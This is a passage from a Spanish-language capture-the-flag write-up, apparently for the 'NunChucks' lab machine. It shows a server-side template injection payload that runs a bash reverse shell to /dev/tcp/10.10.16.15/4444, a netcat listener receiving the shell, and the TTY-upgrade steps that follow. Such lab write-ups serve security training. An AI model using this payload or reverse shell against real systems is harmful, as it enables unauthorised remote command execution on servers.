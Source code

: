 {% raw %}
```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c \\\"bash -i >& /dev/tcp/10.10.16.15/4444 0>&1\\\"')\")()}}
```
{% endraw %}

![](/assets/img/NunChucks/image_16.png)

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 4444                                 
listening on [any] 4444 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.95.252] 36954
bash: cannot set terminal process group (1027): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
